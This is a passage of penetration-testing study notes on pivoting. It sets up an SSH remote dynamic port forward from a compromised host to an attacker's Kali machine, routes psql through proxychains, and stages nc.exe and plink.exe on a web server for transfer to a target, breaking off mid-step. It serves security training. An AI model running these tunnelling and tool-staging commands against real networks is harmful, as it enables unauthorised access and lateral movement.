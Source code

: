 Create a remote dynamic port forward to our Kali machine.
Set the [PORT] to `-R` and authenticate as kali back on our Kali machine.

```
ssh -N -R [PORT] kali@[ATTACKER MACHINE]
```


3. On ATTACKER MACHINE
Udapte `/etc/proxychains4.conf`
```
socks5 127.0.0.1 [PORT]
```


Now that the configuration file is pointing at our remote dynamic port forward SOCKS port, we can run commands through proxychains:
```
# Example:
proxychains psql -h [TARGET 3] -U postgres
```











### Plink
Administrators may want to avoid leaving OpenSSH on their Windows machines, so we're not guaranteed to discover an OpenSSH client. Even if we find ourselves on a recent version of Windows, the network administrators may have removed it.

Nevertheless, network administrators still need remote administration tools. Most networks have SSH servers running somewhere, and administrators need tools to connect to these servers from Windows hosts.

Before OpenSSH was so readily available on Windows, most network administrators' tools of choice were `PuTTY` and its command-line-only counterpart `Plink`.

Plink doesn't have is remote dynamic port forwarding.



1. send `nc.exe` and `plink` to compromised target

1.a share with apache server
```
sudo systemctl start apache2
find / -name nc.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/

find / -name plink.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
```


or

